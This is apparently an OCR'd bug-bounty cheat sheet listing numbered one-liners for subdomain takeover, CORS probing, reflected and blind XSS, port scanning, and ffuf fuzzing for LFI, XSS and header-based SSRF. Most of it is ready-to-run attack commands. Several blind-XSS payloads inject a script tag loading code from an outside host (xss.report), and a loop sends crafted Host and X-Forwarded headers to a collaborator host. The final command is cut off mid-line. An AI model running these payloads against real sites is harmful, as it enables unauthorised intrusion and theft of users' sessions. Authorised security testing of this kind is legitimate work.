 #### 21–23) Subdomain takeover & CORS
```bash
subzy run --targets subdomains.txt --concurrency 100 --hide_fails --verify_ssl
python3 corsy.py -i subdomains_alive.txt -t 10 --headers 'User-Agent: GoogleBot\nCookie: SESSION=Hacked'
```

#### 24–25) XSS (single & blind)
```bash
subfinder -d example.com | gau | bxss -payload ''><script src=https://xss.report/c/coffinxp></script>' -header 'X-Forwarded-For'
echo 'example.com ' | gau | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln
subfinder -d example.com | gau | grep '&' | bxss -appendMode -payload ''><script src=https://xss.report/c/coffinxp></script>' -parameters
```

#### 26–27) Content-type filter & Shodan dork
```bash
echo domain | gau | grep -Eo '(\/[^\/]+)\.(php|asp|aspx|jsp|jsf|cfm|pl|perl|cgi|htm|html)$' | httpx -status-code -mc 200 -content-type | grep -E 'text/html|application/xhtml+xml'
Ssl.cert.subject.CN:'example.com' 200
```

#### 28–29) XSS pipeline
```bash
echo https://example.com/ | gau | gf xss | uro | Gxss | kxss | tee xss_output.txt
cat xss_output.txt | grep -oP '^URL: \K\S+' | sed 's/=.*/=/' | sort -u > final.txt
```

#### 30–32) Network scanning
```bash
naabu -list ip.txt -c 50 -nmap-cli 'nmap -sV -SC' -o naabu-full.txt
nmap -p- --min-rate 1000 -T4 -A target.com -oA fullscan
masscan -p0-65535 target.com --rate 100000 -oG masscan-results.txt
```

#### 33–35) FFUF request files & header-based XSS/SSRF
```bash
ffuf -request lfi -request-proto https -w /root/wordlists/offensive\ payloads/LFI\ payload.txt -c -mr 'root:'
ffuf -request xss -request-proto https -w /root/wordlists/xss-payloads.txt -c -mr '<script>alert('XSS')</script>'
cat domains.txt | assetfinder --subs-only| httprobe | while read url; do xss1=$(curl -s -L $url -H 'X-Forwarded-For: xss.yourburpcollabrotor'|grep xss) xss2=$(curl -s -L $url -H 'X-Forwarded-Host: xss.yourburpcollabrotor'|grep xss) xss3=$(curl -s -L $url -H 'Host: xss.yourburpcollabrotor'|grep xss) xss4=$(curl -s -L $url --request-target http://burpcollaborator/ --max-time 2); echo -e '\e[1;32m$url\e[0m'"\n"'Method[1] X-Forwarded-For: xss+ssrf => '$xss1"\n"'Method[2] X-Forwarded-Host: xss+ssrf ==...
```

### Tips
- Verify live subdomains before heavy scans; use rate limiting.
- Combine passive and active recon for depth.
- Look for misconfigurations in cloud services and public files.
- Verify each potential vuln before reporting; keep thorough notes.

